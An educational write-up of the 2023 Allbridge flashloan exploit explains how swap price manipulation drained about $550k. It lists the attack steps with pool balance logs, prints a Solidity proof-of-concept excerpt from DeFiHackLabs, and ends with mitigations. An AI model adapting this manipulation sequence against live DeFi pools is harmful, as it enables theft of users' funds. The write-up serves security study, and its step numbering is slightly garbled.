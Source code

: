 # Allbridge

![Swag Image](https://static.vecteezy.com/system/resources/thumbnails/009/665/324/small/cute-kitty-cat-on-train-cartoon-element-free-png.png)


## What's Allbridge?
Allbridge is a leading cross-chain provider, specializing in integrating EVM with non-EVM blockchains.
Their mission is to make the blockchain world borderless by providing an 
infrastructure to freely move assets between various networks


## Amount stolen
**$550k USD**

2-04-2023

## Vulnerability
Flashloan attack


## Analysis

The fundamental issue lies in the manipulation of the pool's swap price, allowing the attacker to exploit the system by acting as both the liquidity provider and swapper. This manipulation led to a significant drain of funds from the pool.

In essence, each Allbridge Core liquidity pool functions as a swap contract, similar to established decentralized exchanges such as Uniswap or Curve Finance. The distinctive feature of Allbridge's pools is that liquidity is contributed using only one token, in contrast to traditional DEXes that require pairs of tokens.

Upon depositing liquidity, the system matches the deposited amount by `minting` an equivalent quantity of vUSD tokens*. This vUSD token serves as an intermediary, facilitating the transfer of value between pools, whether within the same blockchain or across different blockchains.

*vUSD, technically not a token, serves as an abstraction within the Allbridge Core ecosystem. It doesn't directly impact user balances as an actual token.

To illustrate, let's consider the process of bridging BUSD from the BNB Chain to USDT on Tron. This involves the sequential steps of swapping BUSD for vUSD, transferring the vUSD value to Tron using a cross-chain messaging protocol, and finally swapping vUSD for USDT on Tron. Notably, this directional swap results in a decrease in the internal price of BUSD to vUSD, while the price of USDT to vUSD increases. This dynamic creates an incentive for other participants to engage in asset bridging in the opposite direction, seeking profitable opportunities within the Allbridge Core ecosystem.



# Proof of Concept (PoC) 

![Swag Image](../images/allbridge2.png)

#### We initiate a flashloan of $7.5M BUSD


During the flashloan, the following steps are executed:

1. **Swap for USDT:**
   - Swap 2 million BUSD for $2M USDT.

2. **Deposit into BUSD Pool:**
   - Deposit $5M BUSD into the BUSD pool using the `deposit` function.

3. **Swap BUSD for USDT:**
   - Swap 500k BUSD for USDT.

4. **Deposit into USDT Pool:**
   - Deposit $2M USDT into the USDT pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate: 5322629245 5306461333 1`

5. **Bridge Swap:**
   - Use the bridge to swap 500k USDT for 500k BUSD, resulting in a high dividend for the previous liquidity deposit.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 4831042788 5799131323 1`


7. **Withdraw from BUSD Pool:**
   - Withdraw $5M BUSD from the BUSD pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 43730 968132265 22138`


8. **Bridge Swap for Profit:**
   - Use the bridge to swap 40k BUSD for 790k USDT, exploiting the artificial pool imbalance.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 39983730 178738726 4`

10. **Withdraw from USDT Pool:**
   - Withdraw $2M USDT from the USDT pool.

11. **Swap USDT for BUSD:**
   - Swap all USDT for BUSD.

11. **Repay Flashloan:**
    - Repay the flashloan using the repaid funds.

12. **Transfer Funds:**
    - Transfer the remaining funds to the attacker's account.
   
`Attacker BUSD balance after exploit: 549889.574365192879687841`


This sequence of actions exploits the liquidity pools, taking advantage of imbalances to maximize gains and navigate the cross-chain swaps.


```solidity
      Swap.swap(address(BUSD), address(USDT), 2_003_300 * 1e18, 1, address(this), block.timestamp);
        BUSDPool.deposit(5_000_000 * 1e18); // deposit BUSD to BUSDPool
        Swap.swap(address(BUSD), address(USDT), 496_700 * 1e18, 1, address(this), block.timestamp);
        USDTPool.deposit(2_000_000 * 1e18); // deposit USDT to USDTPool

        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.tokenBalance() / BUSDPool.vUsdBalance()
        );
        bytes32 token = bytes32(uint256(uint160(address(USDT))));
        bytes32 receiveToken = bytes32(uint256(uint160(address(BUSD))));
        BridgeSwap.swap(USDT.balanceOf(address(this)), token, receiveToken, address(this)); // BridgeSwap USDT to BUSD
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BUSDPool.withdraw(4_830_262_616); // Amplify the imbalance of vUSDbalance and tokenbalance in BUSDPool
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BridgeSwap.swap(40_000 * 1e18, receiveToken, token, address(this)); // BridgeSwap BUSD to USDT
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );
        USDTPool.withdraw(1_993_728_530);

        Swap.swap(address(USDT), address(BUSD), USDT.balanceOf(address(this)), 1, address(this), block.timestamp);
        BUSD.transfer(address(Pair), 7_522_500 * 1e18);
```

## One asset per chain

To prevent the possibility of flash loan attacks, they deployed a single liquidity pool per blockchain. Therefore, it would not be possible to execute an exploit in a single transaction. 

## Mitigation and Best Practices:

Protocols need to add security layers,
using at least two oracles to verify the price. An oracle serves as a means to obtain Real-World Data, enabling smart contracts to interact with external information. This approach would have detected anomalies, such as the mismatch where $40,000 BUSD should not have been able to purchase 700,000 USDT tokens, preventing potential vulnerabilities or exploits.

## Changes to liquidity calculations
The first thing they fixed, was the liquidity calculation on deposits and withdrawals. We implemented several fundamental changes:

- Now virtual vUSD tokens are fully backed by the deposited stablecoins. For example, if you deposit $100k USDC to the pool, they divide it proportionally between the token balance and vUSD balance ($50k each if the pool is balanced).

- On withdrawal, they also take the proportional amount of actual stablecoins and virtual tokens from the amounts in the pool. And since vUSDs are fully backed by the deposited stablecoins it's converted to 1:1.

## Conclusion 

In summary, the attacker is executing a series of actions that involve swapping, depositing, and withdrawing across various pools. These actions create imbalances within the pools, leading to this vulnerability. 

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Allbridge_exp2.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
